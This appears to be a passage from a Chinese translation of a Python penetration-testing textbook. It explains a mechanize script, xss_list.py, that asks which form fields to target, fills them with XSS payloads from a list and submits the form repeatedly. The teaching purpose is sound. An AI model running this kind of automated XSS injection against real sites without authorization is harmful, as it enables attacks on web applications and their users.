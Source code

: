 ```py
    non=list_n[i]
    br.form[non] = 'aaaaaaa'

  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

前面的代码能够攻击多个字段或单个字段。在这段代码中，我们使用了两个列表，`list_a`和`list_n`。`list_a`列表包含你想要发送 XSS 攻击的字段名称，`list_n`包含你不想要发送 XSS 攻击的字段名称。

现在，让我们看看程序。如果你理解了`xss.py`程序，你会注意到我们对`xss.py`进行了修改，以创建`xss_list.py`：

```py
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)
```

我已经解释了`list_a[]`和`list_n[]`的重要性。变量字段要求用户输入表单中非只读字段的总数。`for i in xrange(0,field):`语句定义了从 0 到字段的循环，运行字段次数，意味着表单中存在的字段总数。`na`变量要求用户输入字段名称，`ch`变量要求用户输入“你要攻击这个字段吗”？这意味着，如果你按下*y*或*Y*，输入的字段将进入`list_a`；否则，它将进入`list_n`：

```py
for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'
```

前面的代码非常容易理解。两个`for`循环用于两个列表，用于填写表单字段。

代码的输出如下：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/7715e22d-362c-4cb7-a710-7c566fd8f98c.png)

填写表单以检查 list_n

前面的屏幕截图显示表单字段的数量为两个。用户输入了表单字段的名称并使它们成为非攻击字段。这只是检查代码的工作方式：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/638f24e0-0c72-43f3-8fce-a679aa9deb98.png)

填写表单以检查 list_a 列表

前面的屏幕截图显示用户输入了表单字段并使其攻击字段。
